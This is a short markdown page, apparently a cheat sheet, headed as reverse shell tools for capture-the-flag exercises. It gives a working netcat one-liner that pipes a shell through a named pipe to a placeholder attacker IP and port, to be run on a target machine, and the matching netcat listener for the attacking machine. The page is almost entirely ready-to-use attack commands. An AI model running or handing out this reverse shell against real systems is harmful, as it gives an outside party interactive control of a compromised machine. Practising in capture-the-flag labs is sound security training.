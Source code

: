 # Reverse Shell Tools and Scripts for CTFs

### Netcat reverse shell

**On taget machine**
```
# on target machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f
```
**On Attacking machine**
```
netcat -vlp <port>
```

